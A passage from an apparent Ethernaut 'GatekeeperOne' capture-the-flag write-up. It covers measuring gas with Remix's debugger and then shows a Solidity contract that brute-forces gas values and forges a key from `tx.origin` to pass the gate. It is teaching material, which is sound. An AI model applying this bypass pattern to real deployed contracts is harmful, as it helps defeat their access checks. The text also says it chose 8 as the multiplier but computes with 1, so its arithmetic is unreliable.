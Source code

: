 Initially choose a random fixed gas amount (but big enough) to send with transaction. Let's say `90000`. And call `enterGate` of `GateKeeperOneGasEstimate` with address of our deployed `GatekeeperOne` (from Remix, not Ethernaut's!) and the chosen gas. Now hit `Debug` button in Remix console against the mined transaction. Focus on left pane.

See the list of opcodes executed corresponding to our contract execution. Step over (or drag progress bar) until the line with `gasleft` is highlighted:

```
289 JUMPDEST
290 PUSH1 ..
292 PUSH2 ..
295 GAS
296 PUSH2
   .
   .
   .
139 RETURN
```

Step here and there to locate the `GAS` opcode which corresponds to `gasleft` call. Proceed just one step more (to `PUSH2` here) and note the "remaining gas" from **Step Detail** just below. In my case it's `4395`. Hence gas used up to that point:

```
gasUsed = _gas - remaining_gas
or, gasUsed = 90000 - 4395
or, gasUsed = 85605
```

Now, we have `gasUsed` and we want set a `_gas` such that `gasLeft` returns a multiple of 8191. One such value would be:

```
_gas = (8191 * 1) + gasUsed
or, _gas = (8191 * 1) + 85605
or, _gas = 93796
```

(Note that I randomly chose `8` to multiply to 8191, you can choose any as log as sufficient gas is provided for transaction)

So `_gas` should probably be `93796` to pass the check. But, the target `GateKeeperOne` contract (Ethernaut's instance) on Rinkeby network must've had a little bit of different compile time options. So correct `_gas` is not necessarily `93796`, but a close one. Let's pick a reasonable margin around `93796` and call `enter` for all values around `93796` with that margin. A margin of `64` worked for me. Let's update `GatePassOne`:

```solidity
contract GatePassOne {
    event Entered(bool success);

    function enterGate(address _gateAddr, uint256 _gas) public returns (bool) {
        bytes8 key = bytes8(uint64(uint160(tx.origin)));

        bool succeeded = false;

        for (uint i = _gas - 64; i < _gas + 64; i++) {
          (bool success, ) = address(_gateAddr).call{gas: i}(abi.encodeWithSignature("enter(bytes8)", key));
          if (success) {
            succeeded = success;
            break;
          }
        }

        emit Entered(succeeded);

        return succeeded;
```